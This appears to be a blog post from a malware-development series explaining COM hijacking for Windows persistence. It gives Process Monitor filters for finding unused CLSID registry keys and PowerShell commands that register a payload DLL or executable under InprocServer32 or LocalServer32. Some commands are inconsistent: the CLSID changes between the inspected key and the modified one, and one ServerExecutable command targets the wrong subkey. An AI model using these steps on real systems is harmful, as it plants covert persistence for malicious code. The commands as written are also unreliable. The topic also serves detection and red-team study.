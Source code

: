 ```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- https://attack.mitre.org/techniques/T1546/015/

We can establish persistence through COM by hijacking a COM object. When the tampered object is referenced, our payload will be executed in place of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This registry contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

- Path -> ends with -> LocalServer32

>   This registry contains the full path to a COM server application. This means that we can specify the path to an executable which we want executed

Now we will be able to see every process activity that meets this critera. To speed things up, we can open random applications (like Access, Outlook and so on). We should look for an object that is not referenced very frequently, as executing the payload every second is not a good idea.

> EDR solutions could detect this. For [example](https://www.elastic.co/guide/en/security/8.11/component-object-model-hijacking.html) {: .prompt-warning }

#### Example 1 - InprocServer32

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```PowerShell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```PowerShell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.

#### Example 2 - LocalServer32

We will consider an object with the same CLSID

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32
```

Now the contents will be something to the likes of

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32"

Name                           Property
----                           --------
Localerver32                   (default)      : C:\Program Files\Microsoft Office\Office14\EXCEL.EXE
                               ServerExecutable : "C:\Program Files\Microsoft Office\Office14\EXCEL.EXE"
```

In this case we have to change the value of `(default)` and `ServerExecutable` to our payload, in PE format.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "LocalServer32" -Value "C:\Path\To\payload.exe"
```

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ServerExecutable" -Value "C:\Path\To\payload.exe"
```

To clean up, delete the executable and the registry entry.
